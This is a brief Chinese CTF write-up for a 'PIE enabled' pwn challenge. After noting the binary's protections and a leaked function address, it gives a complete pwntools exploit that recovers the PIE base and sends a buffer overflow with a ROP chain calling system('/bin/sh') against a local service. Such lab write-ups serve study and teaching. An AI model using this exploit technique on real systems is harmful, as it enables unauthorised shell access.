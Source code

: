 # PIE enabled

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

vuln函数直接把自己的地址打印出来了...直接减一减拿到piebase就和之前的题一样了

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46153)
sh.recvuntil(b'is:') # skip
elf = ELF('pwnpie')
vuln = elf.symbols['vuln']
pieBase = int(sh.recvline()[2:14], 16) - vuln # 做完才发现int可以直接从bytes转换，不一定是str
shstrAddr = pieBase + 0x4010
popRdiAddr = pieBase + 0x1323
systemAddr = pieBase + 0x11d8
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr))
sh.interactive()
```

Done.
